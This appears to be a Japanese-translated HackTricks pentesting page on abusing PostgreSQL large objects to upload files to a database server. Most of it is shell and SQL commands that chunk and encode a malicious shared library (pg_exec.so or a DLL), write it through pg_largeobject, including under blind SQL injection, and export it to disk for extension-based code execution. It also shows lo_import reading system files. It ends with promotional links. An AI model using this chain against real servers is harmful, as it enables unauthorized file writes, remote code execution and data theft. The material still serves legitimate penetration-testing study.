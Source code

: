 ```bash
split -b 2048 yourfile
```

このコマンドは、指定されたバイナリファイルを2KBのチャンクに分割します。

そして、以下のようにPostgreSQLの`pg_largeobject`テーブルにそれらのチャンクを挿入することができます。

```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (20485, 0, '\\x3c3f786d6c...');
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (20485, 1, '\\x5b7b226964...');
...
```

ここで、`loid`は大きなオブジェクトのID、`pageno`はチャンクの番号、`data`はバイナリデータのヘキサデシマル表現です。

最後に、以下のコマンドを使用してファイルシステムにエクスポートすることができます。

```sql
SELECT lo_export(20485, '/tmp/yourfile');
```

`lo_export`関数は、指定された`loid`の大きなオブジェクトをファイルシステムの指定されたパスにエクスポートします。
```bash
split -b 2048 pg_exec.so #This will create files of size 2KB
```
ファイルをBase64またはHexにエンコードするには、以下を使用できます：
```bash
base64 -w 0 <Chunk_file> #Encoded in 1 line
xxd -ps -c 99999999999 <Chunk_file> #Encoded in 1 line
```
{% hint style="info" %}
この脆弱性を利用する際には、**2KBのクリアテキストバイトのチャンク**を送信する必要があることを覚えておいてください（2KBのbase64またはhexエンコードされたバイトではありません）。これを自動化しようとする場合、**hexエンコード**されたファイルのサイズは**倍**になります（つまり、各チャンクに対して4KBのエンコードデータを送信する必要があります）し、**base64**エンコードされたファイルのサイズは `ceil(n / 3) * 4` になります。
{% endhint %}

また、デバッグプロセスでは、作成された大きなオブジェクトの内容を以下で確認できます：
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
# lo\_creat & Base64 を使用する

まず、バイナリデータが保存される LOID を作成する必要があります:
```sql
SELECT lo_creat(-1);       -- returns OID of new, empty large object
SELECT lo_create(173454);   -- attempts to create large object with OID 43213
```
**Blind SQLインジェクション**を悪用している場合、固定された**LOID**を使用して`lo_create`を使うことに興味があるでしょう。そうすれば、**コンテンツ**を**アップロード**する場所を**知る**ことができます。\
また、関数が`lo_creat`と`lo_create`であるため、構文エラーはないことに注意してください。

LOIDは`pg_largeobject`テーブルでオブジェクトを識別するために使用されます。`pg_largeobject`テーブルに2KBのチャンクを挿入するには、次の方法があります：
```sql
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 1, decode('<B64 chunk2>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 3, decode('<B64 chunk2>', 'base64'));
```
最終的には、以下の操作を行うことでファイルシステムにファイルをエクスポートできます（この例では使用されたLOIDは`173454`でした）：
```sql
SELECT lo_export(173454, '/tmp/pg_exec.so');
```
{% hint style="info" %}
最新バージョンのpostgresでは、**パスを指定せずに拡張機能をアップロードする必要がある**かもしれません。[**詳細はこちらをお読みください**。](rce-with-postgresql-extensions.md#rce-in-newest-prostgres-versions)
{% endhint %}

エクスポート後に作成された大きなオブジェクトを削除することに興味があるかもしれません：
```sql
SELECT lo_unlink(173454);  -- deletes large object with OID 173454
```
# lo\_import & Hex を使用する

このシナリオでは、lo\_import を使用して大きなオブジェクトを作成します。幸いなことに、この場合は LOID を指定することができます（またはできません）：
```sql
select lo_import('C:\\Windows\\System32\\drivers\\etc\\hosts');
select lo_import('C:\\Windows\\System32\\drivers\\etc\\hosts', 173454);
```
作成したオブジェクトにデータを挿入していくことができます（2KBのチャンクを挿入する必要があることを覚えておいてください）：
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=2;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=3;
```
HEXは単にhexでなければなりません（`0x`や`\x`を除く）、例：
```sql
update pg_largeobject set data=decode('68656c6c6f', 'hex') where loid=173454 and pageno=0;
```
最後に、データをファイルにエクスポートして、大きなオブジェクトを削除します：
```sql
select lo_export(173454, 'C:\\path\to\pg_extension.dll');
select lo_unlink(173454);  -- deletes large object with OID 173454
```
{% hint style="info" %}
最新バージョンのPostgreSQLでは、**パスを指定せずに拡張機能をアップロードする**必要があるかもしれません。[**詳細情報はこちらを読んでください**。](rce-with-postgresql-extensions.md#rce-in-newest-prostgres-versions)
{% endhint %}

# 制限事項

PostgreSQLの大きなオブジェクトに関するドキュメントを読むと、**大きなオブジェクトにはACL**（アクセス制御リスト）があることがわかります。**新しい大きなオブジェクト**を設定して、ユーザーがそれらを作成したにも関わらず、**十分な権限がない**ようにすることが可能です。

しかし、**現在のユーザーが読むことを許可するACLを持つ古いオブジェクト**が存在するかもしれません。その場合、そのオブジェクトの内容を抽出することができます。


<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSのハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見してください。私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションです。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローしてください**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有してください**。

</details>
